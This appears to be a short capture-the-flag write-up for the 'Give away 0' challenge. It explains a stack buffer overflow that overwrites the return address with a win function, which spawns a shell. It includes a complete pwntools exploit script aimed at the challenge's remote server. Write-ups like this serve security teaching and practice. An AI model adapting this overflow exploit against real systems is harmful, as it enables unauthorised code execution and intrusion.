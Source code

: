 # Give away 0

Simple buffer overflow. There is a function win_func that calls system on a global variable. We can read this global variable and find it's value is `/bin/sh` - it pops a shell for us.

In the function vuln, it reads `0x32` bytes into a buffer at `rbp-0x20`. This allows us to overwrite the return address with the address of winfunc.

So our exploit is `0x28 bytes of junk + address of win_func`.
```python
from pwn import *
NUM_TO_RET = 0x20 + 8
e = ELF("./0give")
#p = e.process()
p = remote('sharkyctf.xyz', 20333)
payload = b'A' * NUM_TO_RET + p64(e.symbols['win_func'])
p.sendline(payload)
p.interactive()
```
